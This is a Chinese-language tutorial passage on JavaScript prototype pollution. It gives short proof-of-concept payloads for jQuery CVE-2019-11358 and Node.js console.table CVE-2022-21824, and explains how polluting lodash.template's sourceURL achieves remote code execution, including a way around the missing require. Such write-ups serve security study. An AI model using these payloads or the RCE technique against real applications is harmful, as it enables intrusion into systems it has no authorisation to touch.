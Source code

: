 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2f5f2d9a088bfd4b2ee1c287f2488b3f296be350.png)

jQuery 原型链污染 `CVE-2019-11358`
-----------------------------

POC:

```js
var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "sp4c1ous"}}'));
console.log({}.exploit);
```

这里注意，大坑。

npm 是区分大小写的，我们的 jquery 在镜像库中是全小写的，虽然它的产品名里有大写。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-cc77c341a660faee805b4d35dd2b01e1dfbd0518.png)

当然，肯定会有更多更多，大佬们当时肯定是三下五除二写好脚本，开着自己的扫描就冲去挖 CVE 了。

### console.table 原型链污染 `CVE-2022-21824`

Node.js &lt; 12.22.9, &lt; 14.18.3, &lt; 16.13.2, and &lt; 17.3.1

POC:

```js
console.table([{a:1}], ['__proto__'])
console.table([{x:1}], ["__proto__"]);
```

0x03 prototype pollution attack 2
=================================

到了第二步，我们就要 to RCE 了

配合 lodash.template 实现 RCE
-------------------------

Lodash.template 是 Lodash 中的一个简单的模板引擎，创建一个预编译模板方法，可以插入数据到模板中 “interpolate” 分隔符相应的位置。 详情请看：<http://lodash.think2011.net/template>

在 Lodash 的原型链污染中，为了实现代码执行，我们常常会污染 template 中的 `sourceURL` 属性

我们可以看到对 shourceURL 的定义，可以看到 sourceURL 属性是通过一个三目运算法赋值，其默认值为空

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0f1607bfdf2fc63283526786e974b0c70fafccf6.png)

再看到调用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6c19fd3f36a440b748c7247bb7e5a8ee87ca00f2.png)

显然，这里是一个危险的操作， sourceURL 被拼接进了 函数构造里，作为第二个参数，我们可以利用这里来实现任意的代码执行。

这里要注意的是 Function 内是没有 require 函数的，我们不能直接使用 `require('child_process')` ，但是我们可以使用 `global.process.mainModule.constructor._load` 这一串来代替，后续的调用就很简单了。
